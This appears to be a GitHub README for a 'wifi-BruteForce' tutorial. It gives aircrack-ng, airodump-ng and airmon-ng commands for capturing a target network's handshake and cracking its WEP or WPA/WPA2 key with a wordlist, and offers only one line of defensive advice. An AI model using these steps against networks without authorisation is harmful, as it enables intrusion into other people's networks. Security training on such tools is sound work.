


# wifi-BruteForce

Educational purpose only

# install requirements except kali

# Run commands one by one

1. Airmon-ng 

    Start monitor mode on a wireless interface:

            sudo airmon-ng start wlan0

    Stop monitor mode on a wireless interface:

            sudo airmon-ng stop <interface>

    List available wireless interfaces and their status:

            sudo airmon-ng

2. Airodump-ng:

    Start capturing packets on a specific wireless interface:

            sudo airodump-ng <interface>

    Start capturing packets on a specific channel:

            sudo airodump-ng -c <channel> <interface>

    Capture packets from a specific BSSID (MAC address):

            sudo airodump-ng --bssid <BSSID> -c <channel> -w <output_file> <interface>

    Filter by a specific ESSID (network name):

            sudo airodump-ng --essid <ESSID> -c <channel> -w <output_file> <interface>

3. Aircrack-ng:

    Crack a WEP key using captured packets:

            sudo aircrack-ng -b <BSSID> -w <wordlist> <capture_file>

    Crack a WPA/WPA2 key using a captured handshake:

            sudo aircrack-ng -w <wordlist> -b <BSSID> <capture_file>

    Test a handshake file to check if it contains the complete handshake:

            sudo aircrack-ng -w <wordlist> -b <BSSID> -e <ESSID> <handshake_file>

# note 
    Replace <interface> with the name of your wireless interface (e.g., wlan0).
    Replace <channel> with the channel number you want to monitor or capture packets on.
    Replace <BSSID> with the MAC address of the target network.
    Replace <ESSID> with the network's SSID (name).
    Replace <output_file> with the name you want to give to the output file.
    Replace <capture_file> with the name of the file containing captured packets.
    Replace <wordlist> with the path to a wordlist file containing potential passwords.

# image
 

# protection against attacker

    Use a strong password for your wireless network which contain a combination of letters, numbers and special characters.

# kali_anonyms
